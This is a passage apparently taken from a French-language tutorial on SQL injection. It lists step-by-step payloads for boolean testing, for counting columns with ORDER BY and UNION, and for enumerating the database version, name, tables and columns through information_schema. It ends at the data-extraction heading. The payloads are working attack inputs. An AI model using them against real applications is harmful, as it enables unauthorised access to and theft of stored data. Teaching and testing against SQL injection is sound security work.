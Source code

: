 2. **Vérification des erreurs** :
   - Erreurs SQL exposées
   - Changements dans le comportement de l'application

3. **Tests booléens** :
   ```
   # Condition vraie (comportement normal)
   username=alice' AND 1=1 -- 
   
   # Condition fausse (comportement différent)
   username=alice' AND 1=2 -- 
   ```

#### Exploitation basique

##### 1. Déterminer le nombre de colonnes (pour UNION)

```
# Méthode ORDER BY
username=alice' ORDER BY 1 -- 
username=alice' ORDER BY 2 -- 
username=alice' ORDER BY 3 -- 
# Continuer jusqu'à obtenir une erreur

# Méthode UNION
username=alice' UNION SELECT NULL -- 
username=alice' UNION SELECT NULL, NULL -- 
# Continuer jusqu'à ce que la requête fonctionne
```

##### 2. Identifier les colonnes affichables

```
username=alice' UNION SELECT 'a', 'b', 'c' -- 
```

##### 3. Récupérer des informations sur la base de données

```
# Version de la base de données
username=alice' UNION SELECT 1, @@version -- 

# Nom de la base de données courante
username=alice' UNION SELECT 1, database() -- 

# Liste des tables
username=alice' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema=database() -- 

# Liste des colonnes d'une table
username=alice' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='users' -- 
```

##### 4. Extraire des données
